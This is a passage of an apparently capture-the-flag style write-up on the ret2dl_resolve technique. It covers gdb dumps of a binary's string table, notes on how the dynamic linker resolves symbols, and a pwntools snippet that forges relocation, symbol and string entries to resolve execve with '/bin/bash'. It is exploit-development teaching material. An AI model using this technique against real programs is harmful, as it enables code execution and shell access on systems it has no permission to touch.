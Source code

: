 There are a couple of fields here but the main one that we are interested in is st_name. Its the offset into the STRTAB.

The STRTAB is not a struct but rather a bunch of strings that are function names
```
gef➤  x/13s 0x804826c
0x804826c:      ""
0x804826d:      "libc.so.6"
0x8048277:      "_IO_stdin_used"
0x8048286:      "strncmp"
0x804828e:      "strlen"
0x8048295:      "memset"
0x804829c:      "read"
0x80482a1:      "stdout"
0x80482a8:      "setvbuf"
0x80482b0:      "__libc_start_main"
0x80482c2:      "GLIBC_2.0"
0x80482cc:      "__gmon_start__"
0x80482db:      ""
```

So here's my TL;Dr on how to call dl_resolve_runtime
```
push jmp_offset 
dl_runtime_resolve()
jmp_offset + jumprel -(ONE ENTRY) == Elf32_Rel *reloc_table
    *reloc_table + 0 = GOT addr
    *reloc_table + 4 = r_info 
        ELF32_R_SYM  == r_info >>8 
        ELF32_R_TYPE == r_info & 0xff (7 for GOT)

func's symtab == SYMTAB + ELF32_R_SYM * 0x10

name = STRTAB + func's symtab[First entry]
_dl_lookup_symbol_x(name)
```

So when we call dl_resolve we just need to push the jmp_offset and construct a fake symtab, jmptab and strtab. One thing to note is that the SYMTAB Offet must be aligned, just place the structures and check in gdb.

In this exploit the fake_table is created in the BSS and far from our fake stack to avoid collisions. In later exploits this changes to minimize reads. 
```python 
fake_table = exe.bss() + 0x23c 

jmprel = 0x08048320
symtab  = 0x080481cc
strtab  = 0x0804826c

# Placeholders to calc length
fake_jmp = p32(0)  + p32(0)
fake_sym = p32(0) * 4

jmp_offset = fake_table - jmprel
sym_offset = (fake_table +len(fake_jmp) - symtab) // 0x10
assert sym_offset == (fake_table +len(fake_jmp) - symtab) / 0x10
str_offset = fake_table + len(fake_jmp) + len(fake_sym) - strtab

r_info =  (sym_offset << 8)  | 7 

# Address to overwrite, does not matter
fake_jmp = p32(exe.got.memset)  + p32(r_info)
fake_sym = p32(str_offset) + p32(0) + p32(0) +p32(0)
fake_str = b"execve\x00\x00/bin/bash"

```
